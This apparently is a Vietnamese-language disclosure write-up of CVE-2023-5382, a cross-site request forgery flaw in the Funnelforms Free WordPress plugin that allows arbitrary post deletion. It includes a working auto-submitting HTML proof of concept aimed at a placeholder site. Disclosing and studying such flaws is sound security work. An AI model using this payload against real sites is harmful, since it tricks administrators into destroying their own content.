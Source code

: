 # CVE-2023-5382

- Plugin : Funnelforms Free
- Phiên bản lỗi : <=3.4
- Lỗi : Cross-Site Request Forgery to Arbitrary Post Deletion
- CVSS Score: 6.5 (MEDIUM)

![image](https://github.com/Manh130902/wordpress/assets/93723285/443175e8-3e2a-4fc5-98a3-5d5492eeaacc)

# Mô tả

- Plugin Funnelforms Free dành cho WordPress dễ bị tấn công bởi Giả mạo yêu cầu trên nhiều trang web ở các phiên bản lên đến và bao gồm cả 3.4. Điều này là do xác thực nonce bị thiếu hoặc không chính xác trên hàm fnsf_delete_posts. Điều này giúp những kẻ tấn công không được xác thực có thể xóa các bài đăng tùy ý thông qua một yêu cầu giả mạo với điều kiện là chúng có thể lừa quản trị viên trang web thực hiện một hành động chẳng hạn như nhấp vào liên kết.

# POC

- PoC (This will delete the form with ID 1)

```
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="af2&#95;fnsf&#95;delete&#95;posts" />
      <input type="hidden" name="post&#95;ids&#91;&#93;" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
```

# Khai Thác

https://github.com/Manh130902/wordpress/assets/93723285/69eba29d-42c5-408c-bd47-556794d2218c
